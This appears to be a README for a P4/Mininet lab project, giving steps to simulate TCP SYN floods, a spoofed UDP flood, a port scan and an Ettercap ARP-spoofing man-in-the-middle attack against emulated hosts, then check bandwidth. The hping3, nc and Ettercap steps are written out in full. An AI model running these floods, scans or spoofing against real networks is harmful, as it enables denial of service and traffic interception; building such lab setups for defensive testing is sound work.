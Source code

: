 ## New2
How to run
1. Start the topology: sudo p4run
2. How to conduct TCP SYN Attack- Process 1://
    a. mininet> xterm h3//
    b. In host 3: hping3 -c 1000 -d 120 -S -w  64 -p 21 --flood 10.0.1.1//
3. How to conduct TCP SYN Attack-Process 2://
    a. mininet> xterm h3//
    b. In host 3: python -m SimpleHTTPServer 80
    c. mininet> h1 nc -vnz -w 1 10.0.3.1 80-85 
4. How to conduct UDP Flood Attack:
    d. mininet> xterm h3
    e. In host 3: hping3 -q -n -a 10.0.1.1 -udp -s 53 --keep -p 68 --flood 10.0.1.1
5. How to conduct ARP spoofing Attack: 
Install Ettercap
    a. sudo apt-get install ettercap-graphical
    b. Type -y on instruction
    c. mininet> xterm h1 h2 h3 h3
    d. In node 1: ifconfig
    e. In node 1: arp
    f. In node 2: ifconfig
    g. In node 2: arp
    h. In node 3: tcpdump -i h3 eth0 -n host 10.0.1.1
    i. mininet> h1 ping h2
    j In node 3: ettercap-g
In Ettercap application:
    1. Options->Promisc Mode
    2. Sniff -> Unified Snipping
    3. Select h3-eth0 in the Ettercap input dialog box.
    4. Hosts -> Scan for hosts
    5. Hosts -> Hosts List
    6. Select host with IP address 10.0.1.1 and then click Add to Target 1
    7. Select host with IP address 10.0.1.2 and then click Add to Target 2
    8. Mitm -> ARP Spoofing… Select sniff remote connections only in the dialog box
    9. Now the ARP Spoofing started. Check in h1 node and h2 node: arp -a
How to check bandwidth:
*** Starting CLI:
mininet> iperf h1 h2
From h2 you are not able:
mininet> iperf h2 h1
